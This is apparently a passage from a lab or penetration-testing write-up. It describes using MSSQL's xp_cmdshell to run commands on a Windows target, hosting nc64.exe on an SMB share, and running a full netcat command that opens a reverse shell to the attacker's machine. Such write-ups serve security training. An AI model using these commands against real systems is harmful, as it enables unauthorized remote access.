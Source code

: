 #### - Typed "xp_cmdshell" and found we were in directory "C:\Windows\system32"

![](Pasted%20image%2020221020010503.png)

#### - I attempted to get a reverse shell using "curl.exe" and "certultil.exe" as I was able to find both within system32 directory but had no luck

#### - I then started an smb share hosting "nc64.exe" file on my kali machine by typing "smbserver.py Share /home/kali/Downloads":

![](Pasted%20image%2020221020010606.png)
#SMBServer.pyShare

#### - I then started a netcat listener on my kali machine listening on port 3389

#### - I then typed "xp_cmdshell \\[Kali IP]\Share\nc64.exe -e cmd.exe 192.168.49.114 3389" on the mssql target machine and received a reverse shell on the listener:
